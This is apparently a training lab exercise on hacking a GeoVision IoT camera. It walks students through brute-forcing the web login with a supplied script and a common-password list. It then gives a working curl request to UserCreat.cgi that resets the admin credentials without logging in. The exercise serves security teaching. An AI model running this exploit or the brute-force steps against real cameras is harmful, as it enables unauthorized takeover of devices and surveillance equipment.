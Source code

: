 # IoT Camera Hack | Exercise 01

## Summary

This exercise investigates the fundamentals of exploiting an IoT device by using a known vulnerability from the public Internet.

The following are learning objectives that you will gain from completing this exercise:

* Understand the basics of interacting with an IoT device
* Brute forcing web-based authentication interfaces
* Leveraging a vulnerability to remotely gain access to an IoT device

## Instructions

1. Start up the _Kali VM_ or the machine that you will use to launch an attack<a href="#foot1"><sup>1</sup></a>

2. Open a _Terminal_ and type `ifconfig` in the _Kali VM_

3. At this point, you are looking at the networking information for the _Kali VM_. The most important segment in the _Terminal_ output is the _inet_ value for _eth0_

    **Question:** What is the IP Address for eth0? (It should be a numeric format separated by periods such as 192.168.1.10 or 10.200.1.3)

    Write down the IP Address for eth0: ________________________________________

4. Open a web browser and navigate to the camera's web interface <a href="#foot2"><sup>2</sup></a>

5. You should see a GeoVision web page with a Login and Password prompt

6. Unfortunately, we don’t know the password to the Login interface however, brute forcing is a common technique to gain access!

7. We provided a file called `darkweb2017-top100.txt` in the GitHub repository which contains the top 100 most common passwords. Open the file to view the list. Hopefully, none of the passwords are yours!

8. Now let’s try brute forcing the login interface to access the camera. Often, manually guessing a username and password is time-consuming and tedious. A hacker would traditionally script or program a way to automatically guess the username and password. For your convenience, we have created a brute force script called `GeoVisionBruteForcerScript.py` for you to run. Open a _Terminal_ and run the script with the following command:

    ```bash
    python GeoVisionBruteForcerScript.py --ip <Camera IP>\
    --password_list darkweb2017-top100.txt > output.txt
    ```

9. The previous command created an output.txt file that shows the behaviors and responses to each brute force attempt. Open the output.txt file and you’ll see the results of each attempt. Look for a response that differs from the others. Which one was this?

    Hint: Look for a line with the phrase Set-Cookie in it!

10. Alternatively, there is a publicly accessible exploit to change the administrator username and password for this camera. To launch this exploit, go back to the _Terminal_ window and type the following command:

    ```bash
    curl -v http://<Camera IP>/UserCreat.cgi?admin_username=root\&\ admin_passwordNew=HACKED
    ```

11. If you see _HTTP/1.1 302 Found_ and _Location: ssl.cgi/Login.htm_, try to login to the camera with the username _root_ and the password _HACKED_

12. Were you successful? If not, repeat the previous two steps and try again! 

13. You are probably wondering how did this work? What happened is that this particular IoT camera has a web vulnerability that allows any user to remotely change the username and password on the device without logging into the system. Fortunately, the vendor has resolved this particular issue and released a patch to the public, but we didn’t update this camera because we wanted to show you this demonstration!

Footnotes
=========
<a id="foot1" href="#foot1"><sup>[1]</sup></a> The reminder of this and subsequent exercises will refer the machine that you use to launch attacks as the Kali VM

<a id="foot2" href="#foot2"><sup>[2]</sup></a> The remainder of this and subsequent exercises will refer the IP address of the camera as `<Camera IP>` where the angle brackets are __not__ included in the step